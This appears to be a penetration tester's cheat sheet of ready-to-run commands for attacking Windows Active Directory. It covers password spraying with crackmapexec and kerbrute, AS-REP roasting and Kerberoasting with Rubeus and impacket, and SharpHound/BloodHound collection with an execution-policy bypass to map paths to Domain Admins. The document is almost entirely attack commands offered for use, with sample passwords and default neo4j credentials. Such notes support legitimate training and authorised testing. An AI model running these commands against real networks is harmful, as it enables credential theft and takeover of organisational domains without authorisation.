 
### Password Spraying
#### Check Policy
```
crackmapexec <ip> -u <user> -p <password> --pass-pol
enum4linux -u <user> -p <pass> -P <ip>
net accounts
```
#### Spray
```
#Windows
.\Spray-Passwords.ps1 -Pass Nexus123! -Admin
.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

#Linux
crackmapexec smb <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec smb <target_ips> -u <user_list> -H <hash> -d <domain> --continue-on-success
crackmapexec winrm <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
crackmapexec rdp <target_ips> -u <user_list> -p <pass_list> -d <domain> --continue-on-success
./kerbrute passwordspray -d lab.ropnop.com domain_users.txt Password123

#DON'T FORGET TO USE --local-auth to try local password spray.
#Don't FORGET TO CHECK THE SHARES AS WELL.
```
#### AS-REP Roasting
```
#Gets all users.
impacket-GetADUsers -all -dc-ip <dc_ip> <domain>/<username>

#Roasting
.\Rubeus.exe asreproast /nowrap
impacket-GetNPUsers <domain>/ -usersfile <usernames.txt> - format hashcat -outputfile hashes-asrep
impacket-GetNPUsers <domain_name>/<domain_user> -request -format hashcat -outputfile hashes-asrep -dc-ip <ip>
```
#### Kerberoasting
```
#Roasting
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
impacket-GetUserSPNs <domain_name>/<domain_user> -outputfile hashes-kerb -dc-ip <ip>
```

### BloodHound
#### Data collection
```
powershell -ep bypass
Import-Module .\sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\<user>\Desktop\ -OutputPrefix "audit results"
```
#### Data Analysis

```
sudo neo4j start
sudo bloodhound
http://localhost:7474 (neo4j:kali)
```
- Import zipped data.
- Check Shortest Paths Analysis.
- Right click objects that are owned. For example users and client machines.
- Then choose "Shortest Path to Domain Admins from owned Principals".